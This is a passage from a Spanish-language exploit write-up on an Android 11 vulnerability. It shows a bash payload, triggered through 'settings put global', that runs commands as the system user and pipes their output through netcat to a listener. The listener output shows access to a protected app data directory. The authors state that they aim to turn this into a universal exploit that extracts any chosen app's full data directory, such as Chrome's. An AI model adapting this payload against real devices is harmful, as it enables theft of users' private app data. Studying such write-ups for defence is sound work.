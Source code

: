 ¿Y el teléfono? Bien, gracias. Solo se _ranguea_ un poco al principio, pero luego sigue funcionando con normalidad.

---

Hasta aquí hemos probado que la vulnerabilidad existe en Android 11, logramos ejecutar un comando bash y ver su salida, y conseguimos que el teléfono no quedara inusable después de la explotación. 

Pero, como dijimos al principio, nuestra idea es ir más allá, consiguiendo que el exploit haga algo "real" y lograr una "explotabilidad universal". Este es un paso importante, pero solo es el principio.


## -[ 0x06 Definir el blanco. ]-
Como vimos antes, explotar esta vulnerabilidad podría permitir dos acciones fundamentales: implantar malware o extraer información.

Decidimos que nuestro exploit hará lo segundo: extraer información de la aplicación que se le indique. Por ejemplo, si se le indica que extraiga `com.android.chrome`, el exploit extraerá el directorio completo de esa aplicación.


### Tomando control

Para empezar a pensar en cómo extraer información de forma eficiente, exploremos un poco más lo que podemos hacer con la _payload_ que ya tenemos.

En la sección anterior vimos que la _payload_ original de LLeavesg tiene un comando que redirecciona la salida a una conexión con _netcat_ (`nc`). La modificamos para que _netcat_ se conecte a _localhost_ (127.0.0.1) en el puerto 31337:

```bash
echo "$(id; cd /data/data/com.android.settings ; pwd; ls -al)" | nc 127.0.0.1 31337 ; #
```

Podemos modificar nuestra _payload_ (en nuestro caso `payload_1.txt`) y subirla de nuevo al emulador.

Antes de ejecutar el comando que dispara la vulnerabilidad (`settings put global ...`), debemos poner otra instancia de _netcat_ a escuchar conexiones en el puerto 31337. Esto podemos hacerlo **por fuera** de la shell de `adb`, ejecutando el siguiente comando desde una terminal en **nuestro** computador:

```bash
adb shell nc -l -p 31337
```

Luego, desde la shell de `adb`, ejecutamos el comando que dispara la vulnerabilidad, volvemos a dejar la variable en `null` y vemos qué pasa en la terminal que tiene _netcat_ escuchando:

```bash
$ adb shell nc -l -p 31337  
uid=1000(system) gid=1000(system) groups=1000(system) context=u:r:system_app:s0
/data/data/com.android.settings
total 44
drwx------   4 system system  4096 2025-04-15 19:24 .
drwxrwx--x 203 system system 12288 2025-04-15 19:24 ..
drwxrws--x   2 system system  4096 2025-04-15 19:24 cache
drwxrws--x   2 system system  4096 2025-04-15 19:24 code_cache
lrwxrwxrwx   1 root   root      37 2025-04-15 19:24 lib -> /system_ext/priv-app/Settings/lib/x86
$
```
